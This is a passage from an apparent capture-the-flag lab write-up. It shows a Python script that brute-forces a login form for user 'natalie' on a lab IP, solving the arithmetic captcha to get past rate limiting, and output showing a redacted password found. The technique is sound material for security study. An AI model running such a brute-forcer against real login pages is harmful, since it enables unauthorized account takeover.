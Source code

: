 ```py
            'password': password
        }
        passwordRequest = requests.post(self.url, data=payload)
        isRateLimited = 'Too many bad login attempts!' in passwordRequest.text and 'Invalid password' not in passwordRequest.text
        if isRateLimited:
            soup = BeautifulSoup(passwordRequest.text, 'html.parser')
            # grab pattern like '342 - 47'. Generated from ChatGPT
            pattern = r'(\d+\s*.\s*\d+)'
            captchaMatched = re.search(pattern, soup.text)
            if not captchaMatched:
                print('[-] No captcha found.')

            equation = captchaMatched.group(0)
            answer = sympy.sympify(equation)
            self.afterSolvedCaptchaRequest(password, answer)
            return

        isValidPassword = not 'Invalid password' in passwordRequest.text
        if isValidPassword:
            print(f'[+] Found valid password! username: {self.username}, password: {password}')
            exit()

    def afterSolvedCaptchaRequest(self, password, answer):
        payload = {
            'username': self.username,
            'password': password,
            'captcha': answer
        }
        passwordRateLimitedRequest = requests.post(self.url, data=payload)
        isInvalidCaptcha = 'Invalid captcha' in passwordRateLimitedRequest.text
        isValidPassword = not 'Invalid password' in passwordRateLimitedRequest.text
        if isInvalidCaptcha:
            print('[-] Captcha failed.')
        if isValidPassword:
            print(f'[+] Found valid password! username: {self.username}, password: {password}')
            exit()

if __name__ == '__main__':
    url = 'http://10.10.2.194/login'
    username = 'natalie'
    passwordWordList = 'passwords.txt'
    bruteforcer = Bruteforcer(url, username, passwordWordList)

    bruteforcer.enumeratePassword()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Capture!)-[2023.05.12|17:40:31(HKT)]
└> python3 enum_password.py
[+] Found valid password! username: {Redacted}, password: {Redacted}
```
